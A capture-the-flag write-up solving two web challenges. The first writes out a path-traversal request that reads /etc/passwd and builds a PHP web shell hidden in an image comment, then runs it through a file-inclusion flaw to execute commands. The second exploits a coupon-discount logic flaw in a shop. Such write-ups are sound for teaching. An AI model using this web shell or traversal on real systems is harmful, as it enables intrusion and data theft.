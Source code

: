 # Web

## Local Fun Inclusion

**Challenge**

"Recently i learned how to code in PHP. There are cool tutorials for file uploads around! Imgur Memes have no chance vs. my cool image sharing website!

Check it out at: http://lfi.hax1.allesctf.net:8081/"


**Solution**

**Information Gathering:**
The website only allows uploading image files. 
When hitting the **Submit** button without choosing an image, the URL contains a new request `site=upload.php`.
This is a first hint for a **Local File Inclusion** vulnerability. To verify this assumption call the following URL: 

> http://lfi.hax1.allesctf.net:8081/index.php?site=/../../../etc/passwd

We receive the content of **/etc/passed** 

Unfortunately we can't call  

> http://lfi.hax1.allesctf.net:8081/index.php?site=flag.txt

 to get the flag. We probably need a way to read the directories in order to find out what we're looking for.

The page tells you the storage location when uploading an image. This can be used to upload our **own php** code which can be executed with the **Local File Inclusion** vulnerability.
Unfortunately, uploading php files is forbidden by the server. We need an image file with the correct file extension and magic number. Hence, we have to fool the server, by uploading an image file containing php code.

**Exploit Image**:
To generate an empty image we can use the tool **convert**:

> $ convert -size 32x32 xc:white empty.jpg

Now adding your **own php code** to the image comments with **exiftool**:

> $ exiftool -Comment="\<?php echo shell_exec($_GET['cmd']); ?\>" empty.jpg

(I needed to add **$_GET** manually with vim after executing this command, as it has been removed)

This simple php code `<?php echo shell_exec($_GET['cmd']); ?>` only takes a **GET-Parameter** `cmd` and executes the value as a command. Our goal is to upload this image and execute it with `[BaseURL]/index.php/site=[ImageLocation]&cmd=[arbitraryShellCommand]`. With this approach we can pass arbitrary shell commands, like `ls` to read the directories, or `cat` to read file content.

So we upload this new image and getting the corresponding file location.
Now take the URL and use **Burp** to craft our different requests:
Activate the **Burp proxy** and do a request like `lfi.hax1.allesctf.net:8081/index.php?site=`.
The **Burp proxy** will intercept this request and we can send it to the **Burp Repeater**.

Now just append the file location the the **GET-Request** in the **Burp Repeater**.
The following **GET**-Request will list the files of the current direcotry in the response (Keep in mind that the upload location is different for every upload):
> GET /index.php?site=uploads/a2e4822a98337283e39f7b60acf85ec9_1.jpg&cmd=ls

We can see the `flag.php` file, so we are one step away from the flag. By doing another **GET**-Request we can print the content of this file and receive the flag:

> GET /index.php?site=uploads/a2e4822a98337283e39f7b60acf85ec9_1.jpg&cmd=cat%20flag.php



## StayWoke Shop

**Challenge**

"Are you missing some essential items that were sold out in your local supermarket? You can easily stock up on these in my shop:
http://staywoke.hax1.allesctf.net/"

**Solution**

The Challenge is a web shop, which offers different products for 1€ each. 
These can be added to the shopping cart. In addition, we receive a 20% discount coupon through a scrolling news text (**I<3CORONA**). 

So let's search for a weak point. The coupon code seems to be a good starting point. 
Lets start burp and try to play around with the post and get requests of the shop.
My first thought was posting the same coupon multple times to the server, but this didnt change my wallet ballance or anything else.

While playing around with the shop i relized that the discount amount of the coupon was calculates from the current cart balance.
If you have a shopping card with a sum of product cost of 10€, and you use the discount coupon, the "product" **"coupon"** is added to you card.
This product now has costs **"-2€"**. If we remove now the products from our current cart, this amount remains unchanged.
This allows us to buy any of these products. 
Unfortunately buying one of these Products does not give us the flag.
Also the cart is limited to an amount of 10 products so we cant buy all at once.

So lets keep looking for something odd.

While looking at the intercepted requests in burp i relized that the products are indexed with numbers.
I added the product get-request to the repeater and tried the different numbers to see if there is any hidden product.
And yes, there is a product "flag" at the index 1 (GET /products/1 HTTP/1.1), which costs 1337€:

![](writeupfiles/flagProduct.png)

The rest is pretty easy.
I intercepted a product request of an arbitrary product with burp and changed the requested product index to 1.
Now we have one flag product in our cart.
The next step is adding 10 of these flag products to the cart and use the coupon.
With the coupon we now have 20% of the current costs as a negative value in the cart.
Remove the flags until the balance is high enough to buy a flag.
Now only hit the buy-botton while using the payment option "w0kecoint" with an arbitrary account number.

This will lead us to the order conformation which show us the flag: **CSCG{c00l\_k1ds\_st4y\_@\_/home/}**


To avoid this security issue the discount has to be calculated everytime the cart has changed.
